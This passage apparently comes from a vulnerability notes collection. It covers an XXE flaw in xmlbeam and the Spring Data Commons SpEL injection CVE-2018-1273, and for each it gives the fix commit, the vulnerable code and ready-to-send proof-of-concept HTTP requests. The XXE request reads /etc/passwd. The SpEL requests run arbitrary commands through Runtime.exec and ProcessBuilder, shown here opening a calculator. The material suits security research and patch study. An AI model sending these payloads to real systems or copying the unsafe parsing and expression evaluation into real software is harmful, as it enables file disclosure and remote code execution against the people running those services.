 Diff: https://github.com/SvenEwald/xmlbeam/commit/f8e943f44961c14cf1316deb56280f7878702ee1

POC:
```
POST / HTTP/1.1
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<user>
	<firstname>&xxe;</firstname>
	<lastname>axisx</lastname>
</user>
```
Factor: 
```
org.xmlbeam.io.StreamInput
private Document readDocument() throws IOException {
    try {
        DocumentBuilder documentBuilder = this.projector.config().createDocumentBuilder();
        Document document = this.systemID == null ? documentBuilder.parse(this.is) : documentBuilder.parse(this.is, this.systemID);
        return document;
    } ...
}
```

#### CVE-2018-1273 SpEL
Affected Version: < 1.13.11 or < 2.0.6

Diff: https://github.com/spring-projects/spring-data-commons/commit/b1a20ae1e82a63f99b3afc6f2aaedb3bf4dc432a

POC: 
```
POST /users?page=&size=5 HTTP/1.1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")]=&password=&repeatedPassword=

// other pocs
username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator')")]=&password=&repeatedPassword=
username[(#root.getClass().forName("java.lang.ProcessBuilder").getConstructor('foo'.split('').getClass()).newInstance('shxx-cxxopen -a Calculator'.split('xx'))).start()]=&password=&repeatedPassword=
```
Factor: 
```
MapDataBinder
public void setPropertyValue(String propertyName, @Nullable Object value) throws BeansException {
    if (!this.isWritableProperty(propertyName)) {
        throw new NotWritablePropertyException(this.type, propertyName);
    } else {
        StandardEvaluationContext context = new StandardEvaluationContext();
        ...
        Expression expression = PARSER.parseExpression(propertyName);
        ...
        try {
            expression.setValue(context, value);
        } ...
    }
}
```